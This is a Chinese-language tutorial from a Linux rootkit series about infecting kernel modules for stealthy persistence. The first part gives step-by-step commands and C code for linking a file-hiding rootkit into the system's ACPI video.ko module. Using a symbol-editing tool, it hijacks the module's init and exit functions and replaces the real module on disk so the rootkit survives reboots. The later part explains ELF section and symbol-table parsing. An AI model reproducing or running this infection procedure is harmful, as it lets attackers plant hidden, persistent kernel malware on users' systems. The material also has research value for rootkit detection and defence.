

Linux Rootkit 系列五：感染系统关键内核模块实现持久化
====================================================

**最后修改时间** ： **2016-07-21 CST** 。

rectigu@gmail.com, 二〇一六年七月。

**FreeBuf 链接** ：
http://www.freebuf.com/articles/system/109034.html 。

前言
----

照旧，本文所需的相关代码位于如下代码仓库：
https://github.com/NoviceLive/research-rootkit。

**测试建议：为了愉快地 Happy Hacking，请不要在物理机玩火。**

概要
----

本文分为两大部分，
第一部分是基于链接与修改符号表感染并劫持
目标内核模块的初始函数与退出函数，使其成为寄生的宿主，
实现隐蔽与持久性。第二部分为结合三个实际例子
（ ``lssec``, ``lssym``, ``setsym`` ）的ELF 文件解析起步，
这一部分提供了我们第一部分进行 Happy Hacking 所需要的工具基础，
``setsym`` ，同时也为更好的理解第一部分提供帮助信息。

第一部分：感染系统关键内核模块实现持久化
----------------------------------------

1. 编译并安装所需的 ELF 文件修改程序
++++++++++++++++++++++++++++++++++++

如果你之前已经 ``git clone`` 过代码仓库，
那么现在就可以简单地 ``git pull`` 来获取最新的改动。

进入 ``lssec.c``, ``lssym.c``, ``setsym.c`` 所在的文件夹，
编译并安装这几个程序。

::

   $ make
   $ sudo make install

这时候，这几个程序就已经安装到 ``/usr/bin`` 目录下了，
可以使用了。

**注 1** ： ``lssec`` 相当于自己造的一个功能不完善的
``readelf -S`` ，
``lssym`` 相当于自己造的一个功能不完善的 ``readelf -s``
或者 ``objdump -t`` 。
因此，只有 ``setsym`` 是必须的，其他两个可以不要。
笔者写 ``lssec`` 与 ``lssym``
是为了在后面讲解 ELF 解析的时候用作起步实例。

**注 2** ：我们会在文章的第二部分拿这几个程序当实际的例子来讲解
ELF 文件的结构与解析。现在，我们直接拿起它们用就好了。

**注 3** ： 这几个程序只支持 64 比特 ELF 文件。
如果你需要支持 32 比特 ELF 文件的工具，除了可以自行修改，
还可以使用参考资料的某篇文章提供的 ``elfchger`` ，
而这个工具只支持 32 比特 ELF 文件。

2. 内核模块函数的重定位与挂钩
+++++++++++++++++++++++++++++

演示用的简单内核模块
********************

我们拿下面的这个简单的内核模块作试验演示。

.. code-block:: c

   int
   noinj_init(void)
   {
       pr_alert("noinj: %s\n", "Greetings the World!");

       return 0;
   }

   void
   noinj_exit(void)
   {
       pr_alert("noinj: %s\n", "Farewell the World!");

       return;
   }

   module_init(noinj_init); // 请注意，这次我们使用了个性化的初始函数名，``noinj_init`` 。
   module_exit(noinj_exit); // 退出函数也是。

   int
   fake_init(void) // 用来演示符号表项挂钩的假初始函数。
   {
       noinj_exit(); // 先调用真的初始函数。

       pr_alert("==> NOINJ: %s\n", "GR33TINGS THE W0RLD!");

       return 0;
   }

   int
   fake_exit(void) // 用来演示符号表项挂钩的假退出函数。
   {
       noinj_exit(); // 先调用真的退出函数。

       pr_alert("==> NOINJ: %s\n", "FAR3W311 THE W0RLD!");

       return 0;
   }

编译之后我们可以得到一个 ``noinj.ko`` ，这是一个可重定位文件。
不妨用 ``file`` 查看一下，如下所示。

::

   $ file noinj.ko
   noinj.ko: ELF 64-bit LSB relocatable, x86-64, version 1 (SYSV), BuildID[sha1]=9b497fbb081f193856750e1c2fad93b0c3331edf, not stripped

模块的编译过程与 module_init / module_exit 的分析
*************************************************

生成 ``noinj.ko`` 的大致过程是这样子的：
编译器首先将所有源文件编译成目标文件，
（拿 ``noinj`` 举个例子，就是 ``noinj.c`` -> ``noinj.o`` ），
同时，编译器会自动生成一个源文件，
（在我们的例子中叫 ``noinj.mod.c`` ），
编译之后（即 ``noinj.mod.c`` -> ``noinj.mod.o`` ）
再与已经编译好的目标文件（即 ``noinj.o`` ）链接到一起，
得到一个可重定位文件（即 ``noinj.ko`` ）。

``noinj.mod.c`` 中的内容，
我们主要关心 ``__this_module`` 的定义，如下。

.. code-block:: c

   __visible struct module __this_module
   __attribute__((section(".gnu.linkonce.this_module"))) = { // 将 __this_module 变量放到 .gnu.linkonce.this_module 区间里。
        .name = KBUILD_MODNAME,
        .init = init_module, // 填充初始函数为 init_module
   #ifdef CONFIG_MODULE_UNLOAD
        .exit = cleanup_module, // 填充退出函数为 cleanup_module
   #endif
        .arch = MODULE_ARCH_INIT,
   };

我们在编写内核模块的时候不一定会使用
``init_module`` 与 ``cleanup_module``
作为初始函数与退出函数的名字；而是使用个性化的名字，
比如 ``noinj_init`` 与 ``noinj_exit`` ，
再用 ``module_init`` 与 ``module_exit``
注册我们的个性化命名的函数为初始函数与退出函数。
这时候问题来了， ``module_init`` 与 ``module_exit``
是怎么完成从个性化名字（比如 ``noinj_init`` 与 ``noinj_exit`` ）
到标准名字（即 ``init_module`` 与 ``cleanup_module`` ）的联系呢？
请看源代码，位于 ``linux/module.h`` 。

.. code-block:: c

   /* Each module must use one module_init(). */
   #define module_init(initfn)                  \
        static inline initcall_t __inittest(void)       \
        { return initfn; }                  \
        int init_module(void) __attribute__((alias(#initfn))); // 请看这里，使用 ``GCC`` 编译器的拓展功能，函数别名属性，将个性化名字与标准名字 ``init_module`` 关联起来。

   /* This is only required if you want to be unloadable. */
   #define module_exit(exitfn)                  \
        static inline exitcall_t __exittest(void)       \
        { return exitfn; }                  \
        void cleanup_module(void) __attribute__((alias(#exitfn))); // ``cleanup_module`` 也是。

观察重定位记录与符号表
**********************

下面我们看看这个内核模块的重定位记录： ``readelf -r noinj.ko`` ，
重点看看 ``.gnu.linkonce.this_module`` 的记录，
包含 ``init_module`` 与 ``cleanup_module`` 符号。

::

   Relocation section '.rela.gnu.linkonce.this_module' at offset 0x1aa88 contains 2 entries:
     Offset          Info           Type           Sym. Value    Sym. Name + Addend
   000000000158  001c00000001 R_X86_64_64       0000000000000000 init_module + 0
   0000000002f8  001a00000001 R_X86_64_64       0000000000000020 cleanup_module + 0

请结合符号表（ ``readelf -s noinj.ko`` ）来看。

::

   $ readelf -s noinj.ko
   Symbol table '.symtab' contains 34 entries:
      Num:    Value          Size Type    Bind   Vis      Ndx Name
        0: 0000000000000000     0 NOTYPE  LOCAL  DEFAULT  UND
        // 这儿省略一部分。
       25: 0000000000000000   832 OBJECT  GLOBAL DEFAULT   11 __this_module
       26: 0000000000000020    24 FUNC    GLOBAL DEFAULT    2 cleanup_module // 真的退出函数的记录，名字是 cleanup_module，Value 是 0x20。
       27: 0000000000000000     0 NOTYPE  GLOBAL DEFAULT  UND __fentry__
       28: 0000000000000000    27 FUNC    GLOBAL DEFAULT    2 init_module // 真的初始函数的记录，名字是 init_module， Value 是 0x00。
       29: 0000000000000040    46 FUNC    GLOBAL DEFAULT    2 fake_init // 假的初始函数的记录，Value 是 0x40。
       30: 0000000000000000    27 FUNC    GLOBAL DEFAULT    2 noinj_init // 真的初始函数的记录，名字是 noinj_init， 但 Value 是 0x00，与 init_module 一样。
       31: 0000000000000020    24 FUNC    GLOBAL DEFAULT    2 noinj_exit // 真的退出函数的记录，名字是 noinj_exit， 但 Value 是 0x20，与 cleanup_module 一样。
       32: 0000000000000000     0 NOTYPE  GLOBAL DEFAULT  UND printk
       33: 0000000000000070    46 FUNC    GLOBAL DEFAULT    2 fake_exit // 假的初始函数的记录，Value 是 0x70。

如果我们将 ``init_module`` 符号的值，改成 ``fake_init`` 符号的值，
那么在模块加载进行符号解析、重定位的时候，
``init_module`` 会解析、定位到 ``fake_init`` ，
从而导致我们的假初始函数被执行，
而真的初始函数不会执行（当然，
因为我们假初始函数会调用真的初始函数，所以真的初始函数也会执行，
但是这已经是在我们的掌控之下了）。

``cleanup_module`` 类似。下面我们通过实验来演示这一点。

实验演示符号表项的劫持
**********************

``setsym`` 的用法是这样子的，有两种：一，传递两个位置参数，
第一个是内核模块路径，第二个是符号名，
这时 ``setsym`` 会把这个符号的值打印出来；二，传递三个位置参数，
第一个是内核模块路径，第二个是符号名，第三个是值，
这时 ``setsym`` 会把这个符号的值修改成给定的值。
简言之，如下。

::

   // 第一种用法，获取符号的值。
   setsym <module_path> <symbol_name>

   // 第二种用法，设置符号的值。
   setsym <module_path> <symbol_name> <symbol_value>

实验操作如下。

**提示** ：下面的操作已经写在代码仓库里对应目录的
``infect.sh`` 里了。

::

   // 构建模块。
   $ make

   // 复制一份副本用于对照演示。
   $ cp noinj.ko infected.ko

   // 将副本的 init_module 符号值改成 fake_init 符号值。
   $ setsym infected.ko init_module $(setsym infected.ko fake_init)

   // 将副本的 cleanup_module 符号值改成 fake_exit 符号值。
   $ setsym infected.ko cleanup_module $(setsym infected.ko fake_exit)
   // 加载原始的模块。
   $ insmod noinj.ko

   // 卸载载原始的模块。
   $ rmmod noinj

   // 加载修改过的副本。
   $ insmod infected.ko

   // 卸载修改过的副本。
   $ rmmod noinj // 注意模块名要用宿主的，即 noinj

正常情况下，系统应该调用真的初始函数，
而假的初始函数根本没有执行的机会，因为没人调用了它。

但是对比原本与副本加载、卸载过程中 ``dmesg`` 打印出来的消息，
可以得知，副本里的真初始函数是被假初始函数调用的，
而假初始函数则是被系统调用的。
也就是说，完成了对初始函数的劫持 / 挂钩。

效果如下图所示。

.. image:: images/noinj.png

3. 感染一个示例内核模块
+++++++++++++++++++++++

在上一小节，我们演示了将初始函数与退出函数劫持成
同一个模块里的另一个函数，
现在我们看看怎样把一个良民模块的初始函数与退出函数
劫持成另一个恶意模块的初始函数与退出函数。
此外，恶意模块的代码也要注入到良民模块里，
这样，恶意模块才能起作用。

修改 fshid 使其便于寄生
***********************

这次我们用的良民模块跟上面那个 ``noinj`` 没什么本质差别，
换了下名字来彰显代码注入这个话题，所以叫 ``codeinj`` 。

恶意模块的话，就用 `笔者的上一篇文章`_ 里的 ``fshid`` ；
注意，我们需要对 ``fshid`` 作一些必要的改动。
一来，要把初始函数从 ``init_module`` 改成 ``fshid_init`` ，
``cleanup_module`` 也类似改成 ``fshid_exit`` ；
这是为了避免与良民模块出现名字冲突。
二来，我们要在 ``fshid_init`` 里调用良民模块（即 ``codeinj`` ）
的初始函数（即 ``codeinj_init`` ），
类似地， ``fshid_exit`` 里调用 ``codeinj_exit`` ；
这是为了让我们的挂钩对宿主模块（即良民模块）的功能不产生影响，
使别人观察不到我们的恶意模块的存在。

将 fshid 感染到示例模块中
*************************

具体操作如下。

**提示** ：下面的操作已经写在代码仓库里对应目录的
``infect.sh`` 里了。

::

   // 构建已经修改好适合寄生的恶意模块。
   $ (cd fshid && make --quiet)

   // 构建良民模块（即宿主模块）。
   $ make --quiet

   // 将寄生模块与宿主模块链接到一起。
   // 请注意顺序。
   $ ld -r codeinj.ko fshid/fshidko.ko -o infected.ko

   // 将寄生后宿主的 init_module 符号值改成 fshid_init 符号值
   $ setsym infected.ko init_module $(setsym infected.ko fshid_init)

   // 将寄生后宿主的 cleanup_module 符号值改成 fshid_exit 符号值
   $ setsym infected.ko cleanup_module $(setsym infected.ko fshid_exit)

   // 加载被寄生了的宿主。
   $ insmod infected.ko

   // 测试看看那个文件能不能列举出来：结果应该是不能。
   $ ls -al fshid/test

   $ rmmod codeinj // 注意模块名要用宿主的，即 codeinj

   // 再测试看看那个文件能不能列举出来：结果应该是能。
   $ ls -al fshid/test

参考效果
********

结果如图。

.. image:: images/codeinj.png

4. 感染系统中的内核模块
+++++++++++++++++++++++

现在，我们开始做点正事，感染系统关键内核模块搭顺风车实现隐蔽持久化。

确定目标并采集必要信息
**********************

在系统启动的时候，有一些内核模块会自动加载，
Rootkit 的内核模块可以寄生到这些模块上，实现实现隐蔽持久。

通过 ``lsmod`` 随意找个没被使用的模块，笔者就拿 ``video`` 动手了，
并在滚到最新的 Kali （ ``4.6.0-kali1-amd64`` ）上实践，
读者需要根据自己动手的环境进行一些必要的调整。

先找到它的文件。
尝试在 ``/lib/modules/$(uname -r)`` 目录下面查找一下，
``find /lib/modules/$(uname -r) -name video`` 。结果如下。

::

   $ find /lib/modules/$(uname -r) -name video.ko
   /lib/modules/4.6.0-kali1-amd64/kernel/drivers/acpi/video.ko

接下来尝试判断目标模块的初始函数与退出函数的个性名字。
笔者顺手找到了 ``video`` 模块的源代码，
位于内核源码（笔者手里的版本是 4.6.2）树的
``drivers/acpi/acpi_video.c`` 。
摘取关键片段如下，我们可以看到 ``video`` 模块的初始函数与退出函数是
``acpi_video_init`` 与 ``acpi_video_exit`` 。

::

   module_init(acpi_video_init);
   module_exit(acpi_video_exit);

将 fshid 感染到系统模块中
*************************

一切准备就绪，开始行动。

**提示** ：下面的操作已经写在代码仓库里对应目录的
``infect.sh`` 里了。

::

   // 复制目标模块到实验的当前目录。
   $ cp /lib/modules/4.6.0-kali1-amd64/kernel/drivers/acpi/video.ko .

   // 检查一下我们对初始函数与退出函数的判断是否正确。
   $ readelf -s video.ko | grep -e grep -e acpi_video_init -e acpi_video_exit

   // 把它的初始函数与退出函数的绑定改成 global 。
   // 后面会解释一下这一步的必要性。
   $ objcopy video.ko gvideo.ko --globalize-symbol acpi_video_init --globalize-symbol acpi_video_exit

   // 检查一下 objcopy 是否成功。
   $ readelf -s gvideo.ko | grep -e grep -e acpi_video_init -e acpi_video_exit

   // 构建已经修改好适合寄生的恶意模块。
   // 后面还会解释一下要怎么修改。
   $ (cd fshid && make --quiet)

   // 将寄生模块与宿主模块链接到一起。
   // 请注意顺序。
   $ ld -r gvideo.ko fshid/fshidko.ko -o infected.ko

   // 将寄生后宿主的 init_module 符号值改成 fshid_init 符号值
   $ setsym infected.ko init_module $(setsym infected.ko fshid_init)

   // 将寄生后宿主的 cleanup_module 符号值改成 fshid_exit 符号值
   $ setsym infected.ko cleanup_module $(setsym infected.ko fshid_exit)

   // 卸载系统本来就加载了的 video 模块。
   $ rmmod video

   // 加载寄生了恶意模块的 video 的模块。
   // 观察 dmesg 的输出。
   $ insmod infected.ko

   // 测试隐藏的那个文件能不能列举出来：结果应该是不能。
   $ ls -al fshid/test

   $ rmmod video // 注意模块名要用宿主的，即 video

   // 再测试隐藏的那个文件能不能列举出来：结果应该是能。
   $ ls -al fshid/test

参考效果与重启测试
******************

测试效果截图如下。

.. image:: images/video.png

如果测试正常，那么我们可以用被感染的模块替换掉原来的那个健康的模块了。

::

   // 备份健康的 video 模块。
   $ mv /lib/modules/4.6.0-kali1-amd64/kernel/drivers/acpi/video.ko /lib/modules/4.6.0-kali1-amd64/kernel/drivers/acpi/video.ko.bak
   // 把被感染的 video 模块复制到原来健康模块的位置。
   $ cp infected.ko /lib/modules/4.6.0-kali1-amd64/kernel/drivers/acpi/video.ko

   // 重启系统。
   $ reboot

系统重启之后检查 dmesg 日志并测试是否可以查看到我们的隐藏文件，
以此来判断我们的恶意模块是否正常工作。

看下图，我们可以看到，在系统启动的初期，
我们感染到 ``video`` 模块里的代码打印出来的启动信息。
显然，我们的感染是成功。

系统重启之后，进行文件隐藏是否起作用的测试。参考结果如下图。

如何修改 fshid 使其便于寄生到真实的系统模块
*******************************************

在第 3 小节感染示例模块的时候，我们就对 fshid 做了一些必要的修改。
请注意，在用来感染实际的系统模块时，我们还要多做一点改动。

改动的第一点是把 ``init_module`` 与 ``cleanup_module`` 改成
``fshid_init`` 与 ``fshid_exit`` 来避免名字冲突。
这一点改动与第 3 小节是一样的。

第二点就是，在 ``fshid_init`` 里调用 ``acpi_video_init`` ，
在 ``fshid_exit`` 里调用 ``acpi_video_exit``
来使宿主被感染之后依旧能正常工作。第二点也与第 3 小节类似。

最后是与第 3 小节不同的一个改动，
在定义 ``fshid_init`` 的时候前面加上 ``__init`` ，
定义 ``fshid_exit`` 的时候前面加上 ``__exit`` 。

这是因为系统模块的初始函数与退出函数在定义的时候
通常都加上了这两个修饰前缀。
它们的作用是把函数的代码放到特殊的代码区间里
（也就是说，不放到 ``.text`` 区间里）。
这一点我们要与被感染的模块保持一致。

把系统模块初始函数与退出函数的绑定改成 global 的必要性
******************************************************

系统模块的初始函数与退出函数在定义的时候通常也都会加上 ``static`` ，
这就使得这两个函数只在它那个源码文件的目标文件里可见，
我们也就不能在我们的假初始函数与假退出函数里调用了。

所以，我们要先用 ``objcopy --globalize-symbol``
把这两个函数从 ``local`` 变成 ``global`` 。

5. 小结
+++++++

到此，我们详细讨论了通过链接、修改符号表来感染其他模块并劫持 /
挂钩其他模块的初始函数与退出函数，并将目标模块变成我们的宿主，
依托目标模块活动。

需要说明的是，对符号的具体解析、重定位细节，本文没有深入，
且待后续的分解。

另外，本文使用的 ``ld`` 与 ``objcopy`` 在普通用户的机器上很可能没有。
也就是说，我们其实需要自己实现链接与把符号从 ``local``
改成 ``global`` 的功能。考虑到篇幅有限，本文对这两个的实现不做讲解。

第二部分： ELF 文件解析初步
---------------------------

示例一：列举所有区间的名字、文件偏移等信息：``lssec``
+++++++++++++++++++++++++++++++++++++++++++++++++++++

分析 ELF 头部
*************

ELF 文件的起始部分为 ELF 头部，
ELF 头部有两种， 即 ``Elf32_Ehdr`` （32 比特 ELF 文件头部）
与 ``Elf64_Ehdr`` （64 比特 ELF 文件头部）。

我们以 ``Elf64_Ehdr`` 为例看看其成员的含义。

.. code-block:: c

   typedef struct
   {
     unsigned char  e_ident[EI_NIDENT]; // ELF 特征码与其他信息。
     Elf64_Half     e_type; // 类型。
     Elf64_Half     e_machine; // 架构。
     Elf64_Word     e_version; // 版本。
     Elf64_Addr     e_entry; // 入口点虚拟地址。
     Elf64_Off  e_phoff; // 程序头表的文件偏移。
     Elf64_Off  e_shoff; // 区间头表的文件偏移。
     Elf64_Word     e_flags;
     Elf64_Half     e_ehsize; // ELF 头部的大小（单位：字节）。
     Elf64_Half     e_phentsize; // 程序头表项的大小（单位：字节）。
     Elf64_Half     e_phnum; // 程序头表项的数目。
     Elf64_Half     e_shentsize; // 区间头表项的大小（单位：字节）。
     Elf64_Half     e_shnum; // 区间头表项的数目。
     Elf64_Half     e_shstrndx; // 区间头字符串表在区间头表的索引。
   } Elf64_Ehdr;

头部的前 ``EI_NIDENT`` 字节数据（即结构体中的 e_ident 成员）
为 ELF Identification，
其中包括特征码，比特类型（即 32 比特或者 64 比特）
与其他信息（比如端序 ）。

具体解析的时候，我们先从文件的起始处读取
``EI_NIDENT`` 字节的内容到内存中，
从中判断出文件的比特类型，在知道了文件的比特类型之后，
我们就可以确定该用 ``Elf32_Ehdr`` 还是用 ``Elf64_Ehdr`` 。

本文涉及的所有操作均以 ``Elf64_Ehdr`` + 小端序为例。

结合示例代码来理解。

.. code-block:: c

   // 省略打开文件部分。

   unsigned char e_ident[EI_NIDENT];
   // 读取文件起始 ``EI_NIDENT`` 字节的内容。
   if (fread(e_ident, 1, EI_NIDENT, fp) != EI_NIDENT) {
       fprintf(stderr, "%s\n", "Incomplete ELF Identification!");
       return EXIT_FAILURE;
   }

   // 判断 ``ELF`` 特征码是否正确。
   // ``ELFMAG`` 与 ``SELFMAG`` 定义于系统头文件 ``elf.h`` 中，
   // 分别为特征码与特征码的大小。
   if (memcmp(e_ident, ELFMAG, SELFMAG) != 0) {
       fprintf(stderr, "%s\n", "Bad ELF Magic Number!");
       return EXIT_FAILURE;
   }

   // 判断是否是 64 比特小端序。
   // 这里使用的宏比如 ``EI_CLASS`` 与 ``ELFCLASS64`` 均定义于 ``elf.h`` 。
   if (e_ident[EI_CLASS] != ELFCLASS64 || e_ident[EI_DATA] != ELFDATA2LSB) {
       fprintf(stderr, "%s\n", "We Only Support ELF64 LE!");
       return EXIT_FAILURE;
   }

   Elf64_Ehdr header;
   // 退回到文件起始。
   fseek(fp, 0, SEEK_SET);
   // 读取一个 ``Elf64_Ehdr`` 大小的内容，
   // 也就是读取 ``ELF`` 头部。
   if (fread(&header, 1, sizeof header, fp) != sizeof header) {
       fprintf(stderr, "%s\n", "Incomplete ELF Header!");
       return EXIT_FAILURE;
   }

分析区间头部
************

上面我们讨论了 ELF 头部的结构与读取方式，
接下来我们看看怎样处理区间头部，区间头部也分两种，
32 比特的叫 ``Elf32_Shdr`` ，自然 64 比特的也就叫 ``Elf64_Shdr`` 。

以 ``Elf64_Shdr`` 为例，成员含义如下。

.. code-block:: c

   typedef struct
   {
     Elf64_Word     sh_name; // 区间名（字符串表索引）。
     Elf64_Word     sh_type; // 区间类型。
     Elf64_Xword    sh_flags; // 区间标志。
     Elf64_Addr     sh_addr; // 区间虚拟地址。
     Elf64_Off  sh_offset; // 区间文件偏移。
     Elf64_Xword    sh_size; // 区间大小（单位：字节）。
     Elf64_Word     sh_link;
     Elf64_Word     sh_info;
     Elf64_Xword    sh_addralign;
     Elf64_Xword    sh_entsize; // 这个会在下面 lssym 的时候解释。
   } Elf64_Shdr;

值得注意的是， ``sh_name`` 成员并不是一个字符串，
而是一个整数，为区间头表字符串表的索引。
那我们怎么拿到这个区间的名字呢？

回想我们前面讲的 ELF 头部结构，
``Elf64_Ehdr`` 里的 ``e_shoff`` 成员是区间头表的文件偏移，
``e_shentsize`` 是区间头表项的大小（单位：字节），
``e_shnum`` 是区间头表项的数目；也就是说，
从文件偏移 ``e_shoff`` 开始 ``e_shentsize * e_shnum`` 大小的内容
就是区间头表。
这样一来，我们可以把整个区间头表读取到内存里。
而 ``e_shstrndx`` 是字符串表在区间头表的索引，
通过访问这个索引得到字符串表的头部，
并进而根据头部中的信息将字符串表的内容读取出来，
再 ``sh_name`` 作偏移访问字符串表就可以拿到区间名了。

结合代码示例理解。

.. code-block:: c

   size_t size = header.e_shnum * header.e_shentsize;
   // 分配区间头表大小的内存。
   Elf64_Shdr *section_header_table = malloc(size);
   if (section_header_table == NULL) {
       perror("malloc");
       return EXIT_FAILURE;
   }

   // 定位到文件偏移 ``e_shoff`` 处。
   fseek (fp, header.e_shoff, SEEK_SET);
   // 读取区间头表。
   if (fread(section_header_table, 1, size, fp) != size) {
       fprintf(stderr, "%s\n", "Incomplete Section Header Table!");
       return EXIT_FAILURE;
   }

   // 得到字符串表的区间头。
   Elf64_Shdr shstrtab = section_header_table[header.e_shstrndx];
   // 区间大小。
   size = shstrtab.sh_size;
   // 分配内存。
   char *section_header_string_table = malloc(size);
   if (section_header_string_table == NULL) {
       perror("malloc");
       return EXIT_FAILURE;
   }

   // 定位到字符串表所在文件偏移。
   fseek (fp, shstrtab.sh_offset, SEEK_SET);
   // 读取字符串表。
   if (fread(section_header_string_table, 1, size, fp) != size) {
       fprintf(stderr, "%s\n", "Incomplete Section Header String Table!");
       return EXIT_FAILURE;
   }

遍历所有区间并打印其信息
************************

然后我们就可以遍历区间头表并将其名字、文件偏移等信息打印出来。
代码如下。

.. code-block:: c

   printf("%s\n", "number offset     size   entsize   name");
   for (unsigned num = 0; num < header.e_shnum; num += 1) {
       Elf64_Shdr section_header = section_header_table[num];
       char *name = string_table + section_header.sh_name;
       printf("%4u %8llx %8llx %8llx %s\n",
              num, section_header.sh_offset,
              section_header.sh_size, section_header.sh_entsize,
              name);
   }

参考效果
********

编译 ``lssec.c`` 得到 ``lssec`` 。

左边是 ``./lssec /bin/ls`` ，
右边是对比使用的 ``readelf -S /bin/ls`` 。

示例二：列举所有符号的名字、值等信息：``lssym``
+++++++++++++++++++++++++++++++++++++++++++++++

上面的示例一完成了对区间头表的遍历。现在我们再看看怎么读取符号表。

基于示例一遍历区间头表的代码，
我们可以实现一个 ``get_section_by_name`` ，
即通过区间名字拿到对应的区间头。

然后我们通过 ``get_section_by_name`` 拿到 ``.symtab`` （即符号表）与
``.strtab`` （符号字符串表）的区间头，
进而根据这两个头把这两个区间读到内存中来。
看如下代码。

.. code-block:: c

   // 获取 .symtab 的头。
   Elf64_Shdr *symtab = get_section_by_name(".symtab",
                                            header,
                                            sec_header_tab,
                                            shstrtab);

   // 这儿省略获取 .strtab 的头，与获取 .symtab 的头类似。

   // 这儿省略对是否获取成功的检查。

   // 分配 .symtab 大小的内存。
   Elf64_Sym *syms = malloc(symtab->sh_size);
   if (syms == NULL) {
       perror("malloc");
       return EXIT_FAILURE;
   }
   // 定位到 .symtab 的文件偏移。
   fseek(fp, symtab->sh_offset, SEEK_SET);
   // 读取 .symtab。
   if (fread(syms, 1, symtab->sh_size, fp) != symtab->sh_size) {
       fprintf(stderr, "%s\n", "Incomplete Symbol Table!");
       return EXIT_FAILURE;
   }

   // 这儿省略 .strtab 的读取，与 .symtab 的读取类似。

此时， ``.symtab`` 与 ``.strtab`` 都已经读到内存里了。
下面我们看看， ``.symtab`` 的结构。

区间头有一个 ``sh_entsize`` 成员，这个成员的含义是，
如果这个区间保存的是一张表，
那么 ``sh_entsize`` 就是这张表中每个成员的大小。
回想一下，区间头里的 ``sh_size`` 是区间的大小，
所以对 ``.symtab`` 而言，它有 ``sh_size / sh_entsize`` 项成员。

每项成员由结构体 ``Elf64_Sym`` 描述，定义如下。

::

   typedef struct
   {
     Elf64_Word     st_name; // 符号名字（字符串表索引）
     unsigned char  st_info; // 类型与绑定。
     unsigned char st_other;
     Elf64_Section  st_shndx;
     Elf64_Addr     st_value; // 符号的值。
     Elf64_Xword    st_size;
   } Elf64_Sym;

``Elf64_Sym`` 中的 ``st_name`` 是一个整数，
为符号的名字在 ``.strtab`` 中的索引，
这一点与之前区间头（ ``Elf64_Shdr`` ）里的 ``sh_name`` 类似。

知道了这些，我们就可以遍历整个符号表并将符号的名字，
符号的值等信息打印出来，如下代码所示。

.. code-block:: c

   printf("%s\n",
          "num    index    size    value  info other  name");
   int total = symtab->sh_size / symtab->sh_entsize;
   for (int count = 0; count < total; count += 1) {
       printf("%4llu %4llx %8llu %8llx %4x %4x %s\n",
              count,
              syms[count].st_shndx,
              syms[count].st_size,
              syms[count].st_value,
              syms[count].st_info,
              syms[count].st_other,
              strs + syms[count].st_name);
   }

参考效果
********

编译 ``lssym.c`` 得到 ``lssym`` ，如下图所示，
左边是 ``./lssym ../noinj/noinj.ko`` ，
右边是用来对照的 ``readelf -s ../noinj/noinj.ko`` 。

.. image:: images/lssym.png

示例三：获取或修改给定符号的值：``setsym``
++++++++++++++++++++++++++++++++++++++++++

既然我们已经能够遍历整个符号表了，那么要获取给定符号的值，毫无压力。

那么修改给定符号的值呢，也很简单，请看如下代码，
基于示例二的遍历逻辑修改而来。

.. code-block:: c

    for (int count = 0; count < total; count += 1) {
        // 判断当前遍历到的符号是不是我们给定的符号。
        // 请注意，argv[2] 位置参数用来给定符号的名字。
        if (strcmp(strs + syms[count].st_name, argv[2]) == 0) {
           // 如果是，就会执行进来。
           // 判断位置参数的个数。
            if (argc == 4) {
                // 如果给定了 3 个位置参数，执行到这里。
                // 这时是 setsym 的第二种用法。
                // 即 setsym <module_path> <symbol_name> <symbol_value> 。
                // 也就是设置给定符号的值。

                // 取当前符号。
                Elf64_Sym sym = syms[count];
                char *endp;
                errno = 0;
                // 将 argv[3] 转换成整数。
                // 注意 argv[3] 是需要设置的给定符号的值。
                unsigned long long val = strtoull(argv[3], &endp, 0);
                // 处理转换时可能出现的错误。
                if ((errno == ERANGE && val == ULLONG_MAX) ||
                    (errno != 0 && val == 0)) {
                    perror("strtoull");
                    return EXIT_FAILURE;
                }
                // 处理转换时可能出现的错误。
                if (endp == argv[3]) {
                    fprintf(stderr, "%s\n", "No Valid Number!");
                    return EXIT_FAILURE;
                }
                // 把符号的值改成给定的值。
                sym.st_value = val;

                // 计算当前符号距离 .symtab 起始的偏移。
                long delta = count * symtab->sh_entsize;
                // 定位到当前符号的文件偏移。
                fseek(fp, symtab->sh_offset + delta, SEEK_SET);
                // 写入修改后的符号。
                if (fwrite(&sym, 1, sizeof sym, fp) != sizeof sym) {
                    fprintf(stderr, "%s\n", "Incomplete Sym Write!");
                    return EXIT_FAILURE;
                } else {
                    fprintf(stderr, "%s\n", "Writing complete.");
                }
            } else {
                // 如果给定了 2 个位置参数，执行到这里。
                // 请注意，我们在程序的开始部分就把 argc 限制在了
                // 3 或者 4 。

                // 这时是 setsym 的第一种用法。
                // 即 setsym <module_path> <symbol_name> 。
                // 获取给定符号的值。
                printf("0x%llx\n", syms[count].st_value);
            }
        }
    }

参考效果
********

考虑到我们在第一部分已经基于 ``setsym`` 完成了我们的 Happy Hacking 。
这里就不必举参考用例了。

第三部分： 参考资料与延伸阅读
-----------------------------

1. 参考资料
+++++++++++

- `Infecting loadable kernel modules: kernel versions 2.6.x/3.0.x <http://phrack.org/issues/68/11.html#article>`_
- `Tool Interface Standard (TIS) Executable and Linking Format (ELF) Specification Version 1.2 <http://refspecs.linuxbase.org/elf/elf.pdf>`_

2. 延伸阅读
+++++++++++

- `Infecting Loadable Kernel Modules <http://phrack.org/issues/61/10.html#article>`_
- `Static Kernel Patching <http://phrack.org/issues/60/8.html#article>`_

如有错误疏忽，欢迎纠正补充；
如有疑惑不解，欢迎提问讨论。

rectigu@gmail.com ， 二〇一六年七月。

.. _笔者的上一篇文章: http://www.freebuf.com/articles/system/107829.html
